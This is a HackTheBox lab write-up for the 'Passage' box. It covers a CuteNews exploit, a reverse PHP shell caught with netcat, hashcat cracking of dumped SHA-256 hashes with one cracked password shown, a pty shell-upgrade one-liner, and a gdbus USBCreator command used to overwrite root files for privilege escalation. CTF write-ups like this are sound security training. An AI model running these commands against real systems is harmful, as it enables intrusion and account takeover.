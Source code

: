 ```yaml
---
layout: default
title: Passage
parent: HackTheBox
nav_order: 6
---
```


# Navigation Structure
{: .no_toc }

## Table of contents
{: .no_toc .text-delta }

![](pictures/logo-passage.PNG)

- Summary
- Recon
- Intrusion
- Lateral Movement
- Privilege Escalation
{:toc}



## [](#header-2)Summary:

- Enumerate Vulnerable version of CuteNews
- Exploit vulnerability to pop a shell
- Pivot into more privileged user(s)
- Escalate privileges with USBCreator D-Bus exploit


## [](#header-2)Recon:

Running an aggresive nmap scan(bc why not) I can see that there is a open ssh port and a apache webserver running on port 80.


![](pictures/nmap-passage.png)


Exploring the target IP's website we get the following page:


![](pictures/index-passage.png)


At the bottom we see that the site is running on "CuteNews".


![](pictures/index1-passage.png)


![](pictures/cute-passage.png)





Searchsploit gifts us a mighty(and easy to use) exploit.



Once we use the exploit I pop into a rather restrictive shell within the web dir.


![](pictures/exploit-passage.png)


We also get some hashes to crack but to enumerate who the users may be I followed the some of the exploit code and end up on with the below encrypted info.


![](pictures/lines-passage.png)


Which we can decrypt from base 64 into the following:

```bash
a:1:{s:5:"email";a:1:{s:16:"paul@passage.htb";s:10:"paul-coles";}}
a:1:{s:2:"id";a:1:{i:1598829833;s:6:"egre55";}}
a:1:{s:5:"email";a:1:{s:15:"egre55@test.com";s:6:"egre55";}}
a:1:{s:4:"name";a:1:{s:5:"admin";
a:8:{s:2:"id";s:10:"1592483047";s:4:"name";s:5:"admin";s:3:"acl";s:1:"1";s:5:"email";s:17:"nadav@passage.htb";s:4:"pass";s:64:"7144a8b531c27a60b51d81ae16be3a81cef722e11b43a26fde0ca97f9e1485e1";s:3:"lts";s:10:"1592487988";s:3:"ban";s:1:"0";s:3:"cnt";s:1:"2";}}}
a:1:{s:2:"id";a:1:{i:1592483281;s:9:"sid-meier";}}
a:1:{s:5:"email";a:1:{s:17:"nadav@passage.htb";s:5:"admin";}}
a:1:{s:5:"email";a:1:{s:15:"kim@example.com";s:9:"kim-swift";}}
a:1:{s:2:"id";a:1:{i:1592483236;s:10:"paul-coles";}}
a:1:{s:4:"name";a:1:{s:9:"sid-meier";a:9:{s:2:"id";s:10:"1592483281";s:4:"name";s:9:"sid-meier";s:3:"acl";s:1:"3";s:5:"email";s:15:"sid@example.com";s:4:"nick";s:9:"Sid Meier";s:4:"pass";s:64:"4bdd0a0bb47fc9f66cbf1a8982fd2d344d2aec283d1afaebb4653ec3954dff88";s:3:"lts";s:10:"1592485645";s:3:"ban";s:1:"0";s:3:"cnt";s:1:"2";}}}
a:1:{s:2:"id";a:1:{i:1592483047;s:5:"admin";}}
a:1:{s:5:"email";a:1:{s:15:"sid@example.com";s:9:"sid-meier";}}
a:1:{s:4:"name";a:1:{s:10:"paul-coles";a:9:{s:2:"id";s:10:"1592483236";s:4:"name";s:10:"paul-coles";s:3:"acl";s:1:"2";s:5:"email";s:16:"paul@passage.htb";s:4:"nick";s:10:"Paul Coles";s:4:"pass";s:64:"e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd";s:3:"lts";s:10:"1592485556";s:3:"ban";s:1:"0";s:3:"cnt";s:1:"2";}}}
a:1:{s:4:"name";a:1:{s:9:"kim-swift";a:9:{s:2:"id";s:10:"1592483309";s:4:"name";s:9:"kim-swift";s:3:"acl";s:1:"3";s:5:"email";s:15:"kim@example.com";s:4:"nick";s:9:"Kim Swift";s:4:"pass";s:64:"f669a6f691f98ab0562356c0cd5d5e7dcdc20a07941c86adcfce9af3085fbeca";s:3:"lts";s:10:"1592487096";s:3:"ban";s:1:"0";s:3:"cnt";s:1:"3";}}}
a:1:{s:4:"name";a:1:{s:6:"egre55";a:11:{s:2:"id";s:10:"1598829833";s:4:"name";s:6:"egre55";s:3:"acl";s:1:"4";s:5:"email";s:15:"egre55@test.com";s:4:"nick";s:6:"egre55";s:4:"pass";s:64:"4db1f0bfd63be058d4ab04f18f65331ac11bb494b5792c480faf7fb0c40fa9cc";s:4:"more";s:60:"a:2:{s:4:"site";s:0:"";s:5:"about";s:0:"";}";s:3:"lts";s:10:"1598834079";s:3:"ban";s:1:"0";s:6:"avatar";s:26:"avatar_egre55_spwvgujw.php";s:6:"e-hide";s:0:"";}}}
a:1:{s:2:"id";a:1:{i:1592483309;s:9:"kim-swift";}}

```

Now we know which password hashes match to which users.



## [](#header-2)Intrusion:


To get a better shell I downloaded a reverse php shell from my host and catch the connection with netcat.


![](pictures/phpshell-passage.png)


I was logged in as www-data and had little to no access to much.


At around this time my hashcat that I ran earlier with 
-m 1400 = Sha256

```bash

 hashcat -m 1400  hashes.txt /usr/share/wordlists/rockyou.txt  

```

 the SHA-256 hashes came back with one result, which belongs to the user paul.


```bash
 e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd:atlanta1

 ```

 ## [](#header-2)Lateral Movement:


 To sign is as paul with "su" I had to switch my shell with:

```bash
python3 -c "import pty; pty.spawn('/bin/bash')"
```


Still not getting much of anywhere with Paul's account, I aimed to switch to the user nadav for two reasons:

1. nadav was the only other user I found in the /home dir.
2. nadav had more privileges and was apart of sudo group.

Looking in paul's authorized_keys file within ~/.ssh I found nadav's public ssh key.


![](pictures/key-passage.png)
Then I finally get into nadav's account and get the user flag.

![](pictures/phpshell-passage.png)



## [](#header-2)Privilege Escalation:


My goal from here is to escalate privileges and get my ass evolved to root user.


![](pictures/meme-passage.png)

After searching for awhile I find a .viminfo file on nadav's /home dir with the help of the ls -a command.

```bash
cat .viminfo
# This viminfo file was generated by Vim 7.4.
# You may edit it if you're careful!

# Value of 'encoding' when this file was written
*encoding=utf-8


# hlsearch on (H) or off (h):
~h
# Last Substitute Search Pattern:
~MSle0~&AdminIdentities=unix-group:root

# Last Substitute String:
$AdminIdentities=unix-group:sudo

# Command Line History (newest to oldest):
:q
:wq
:%s/AdminIdentities=unix-group:root/AdminIdentities=unix-group:sudo/g

# Search String History (newest to oldest):
? AdminIdentities=unix-group:root

# Expression History (newest to oldest):

# Input Line History (newest to oldest):

# Input Line History (newest to oldest):

# Registers:

# File marks:
'0  2  0  /etc/polkit-1/localauthority.conf.d/51-ubuntu-admin.conf
'1  12  7  /etc/dbus-1/system.d/com.ubuntu.USBCreator.conf

# Jumplist (newest first):
-'  2  0  /etc/polkit-1/localauthority.conf.d/51-ubuntu-admin.conf
-'  12  7  /etc/dbus-1/system.d/com.ubuntu.USBCreator.conf
-'  1  0  /etc/dbus-1/system.d/com.ubuntu.USBCreator.conf
-'  1  0  /etc/polkit-1/localauthority.conf.d/51-ubuntu-admin.conf
-'  12  7  /etc/dbus-1/system.d/com.ubuntu.USBCreator.conf
-'  1  0  /etc/dbus-1/system.d/com.ubuntu.USBCreator.conf

# History of marks within files (newest to oldest):

> /etc/polkit-1/localauthority.conf.d/51-ubuntu-admin.conf
        "       2       0
        .       2       0
        +       2       0

> /etc/dbus-1/system.d/com.ubunu.USBCreator.conf
```


Having no idea what "com.ubunu.USBCreator.conf" was I googled and found a very interesting [article](https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/) to say the least.


I saw the article was written by the man himself nadav, so this was my first hint I was on the right path.

Essentially, the exploit allows us to create/overwrite arbitrary files as root with no password as long as the attacker(me) has access to the sudoers group(which nadav has). 


Naturally, my target with this was to overwrite the authorized_keys file in the /root/.ssh directory with nadav's.

With the following command:

```bash
gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /home/nadav/a.txt /a.txt true
```


I was able to overwrite the file which was indicated by the ().

![](pictures/root-passage.png)


~~~Root!~~~



This was a really fun box especially on the lateral movement/priv esc side of things.






